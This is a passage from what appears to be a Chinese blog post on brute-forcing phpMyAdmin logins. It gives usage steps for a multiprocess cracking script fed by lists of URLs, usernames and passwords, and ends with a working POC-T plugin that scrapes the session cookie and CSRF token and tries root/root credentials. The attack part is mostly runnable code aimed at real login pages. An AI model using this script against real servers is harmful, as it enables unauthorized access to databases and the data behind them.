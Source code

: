 ```
    end_time = timeit.default_timer()
    print("\n 程序运行结束，总用时:{}".format(end_time-start_time))
```

使用方法：

- 在代码同目录创建`url.txt`,`username.txt`,`password.txt`，分别把需要爆破的`url`，用户名和密码对应写入
- 分别`pip install`这些库：

```
requests
multiprocessing
argparse
fake_useragent
timeit
```

- `python phpmyadmin.py`运行代码，可以加一个`-p`参数，后面接字典的路径

运行效果如下：

![][13]

`cpu`占用率瞩目：

![][14]

进程池是根据你的`cpu`个数自动设置的，你觉得占用太高的话，手动在`pool = Pool()`

这行的括号里填写想要的数值即可，最大只能为你的`cpu`核数，可以减小一点就不会占满`cpu`了。

## 多线程版本

[2020-02-12 更新]

可以使用`POC-T`框架来管理多线程，具体可以参考[github][15]

把以下代码存储为`phpmyadmin-weakpass.py`放到`POC-T`的`script`文件夹内：

```
# -*- coding: utf-8 -*-
import requests
import re


def poc(url_dict):
    try:
        session = requests.session()
        req = session.get(url_dict)
        if req.status_code == 200:
            session_id = re.findall(
                r'phpMyAdmin=(.*?);', req.headers['Set-Cookie'])
            token = list(re.compile(
                r'name=\"token\" value=\"(.*?)\"').findall(req.text))[0]
            headers = {"Upgrade-Insecure-Requests": "1",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36 Edg/80.0.361.50", "Connection": "close"}
            paramsPost = {"set_session": session_id, "pma_username": "root",
                          "pma_password": "root", "server": "1", "target": "index.php", "token": token}
            r2 = session.post(url_dict, data=paramsPost,
                              allow_redirects=False, headers=headers)
            if r2.status_code == 302:
                return url_dict
    except:
        return False
```


[1]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_174438.png
[2]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_174718.png
[3]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_180452.png
[4]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_180719.png
[5]: https://www.uedbox.com/post/57884/
[6]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_182458.png
[7]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_183038.png
[8]: https://cloud.tencent.com/developer/article/1471274
[9]: https://docs.python.org/zh-cn/3.8/library/argparse.html
[10]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_182703.png
[11]: https://www.liaoxuefeng.com/wiki/1016959663602400/1017629247922688
[12]: http://blog.atomicer.cn/2016/09/30/Python%E4%B8%AD%E5%A4%9A%E7%BA%BF%E7%A8%8B%E5%92%8C%E5%A4%9A%E8%BF%9B%E7%A8%8B%E7%9A%84%E5%AF%B9%E6%AF%94/
[13]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_184546.png
[14]: https://img.soapffz.com/archives_img/2019/12/29/archives_20191229_184451.png
[15]: https://github.com/Xyntax/POC-T
[16]: https://img.soapffz.com/archives_img/2019/12/29/archives_20200212_172155.png